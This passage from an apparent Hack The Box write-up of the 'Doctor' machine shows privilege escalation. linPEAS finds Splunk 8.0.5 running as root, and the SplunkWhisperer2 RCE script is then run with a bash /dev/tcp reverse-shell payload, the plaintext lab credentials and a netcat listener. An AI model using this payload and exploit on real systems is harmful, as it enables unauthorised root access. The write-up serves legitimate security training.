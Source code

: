 ## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice that the splunk service we initially discovered is running as root:  
```
╔════════════════════════════════════════════════╗              
══════════════════════════╣ Processes, Crons, Timers, Services and Sockets ╠══════════════════════════          
 ╚════════════════════════════════════════════════╝                                                                                                                                                                 
╔══════════╣ Cleaned processes                                                                                        
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
[... SNIP ...]
root        1138  0.0  2.1 257468 87936 ?        Sl   Mai04   0:46 splunkd -p 8089 start
[... SNIP ...]
```
So, let's see if we can login to splunk using the shaun credentials.  
Once we are in into splunk we can checkout the version ```Splunk build: 8.0.5```. Now searching online for this version's exploit we can came across this [GitHub page of splunkWhirperer2 RCE](https://github.com/cnotin/SplunkWhisperer2) essentially we would only need to run the python script and hopefully we will gain root access to the box:  
```
[root@kali PySplunkWhisperer2 (master)]$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --lhost 10.10.14.6 --lport 9001 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpi0qhi5lc.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.6:9001/
10.10.10.209 - - [06/May/2022 11:05:06] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup                                  
```
And on our listener we get a shell as root:
```
root@kali:~/Documents/HTB/Boxes/Doctor# nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.209] 49738
bash: cannot set terminal process group (1140): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
uid=0(root) gid=0(root) groups=0(root)
```
